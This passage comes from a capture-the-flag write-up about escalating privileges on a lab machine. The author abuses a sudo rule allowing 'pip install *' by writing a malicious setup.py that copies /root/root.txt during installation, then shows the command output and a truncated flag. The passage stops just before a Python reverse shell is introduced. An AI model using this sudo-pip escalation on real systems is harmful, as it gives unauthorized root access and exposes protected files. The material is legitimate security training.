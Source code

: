     User homer may run the following commands on canape:
        (root) /usr/bin/pip install *



That means I'm going to write a malicious `setup.py` file.

### Read root.txt

Make a malicious setup.py file that will get root.txt:



    from setuptools import setup
    from setuptools.command.install import install

    class Exploit(install):
        def run(self):
            with open('/root/root.txt', 'r') as fin:
                with open('/dev/shm/0xdf', 'w') as fout:
                    fout.write(fin.read())

    setup(
        cmdclass={
            "install": Exploit
        }
    )



From there, just run pip on the local directory:



    homer@canape:/dev/shm$ ls
    setup.py

    homer@canape:/dev/shm$ sudo pip install .
    The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
    The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
    Processing /dev/shm
    Installing collected packages: UNKNOWN
      Running setup.py install for UNKNOWN ... done
    Successfully installed UNKNOWN

    homer@canape:/dev/shm$ ls
    0xdf  setup.py

    homer@canape:/dev/shm$ cat 0xdf
    928c3df1...



### root Shell

Just getting the flag isn't fun. Let's use the setup.py to get a root
shell. I'll use the python reverse shell code here:
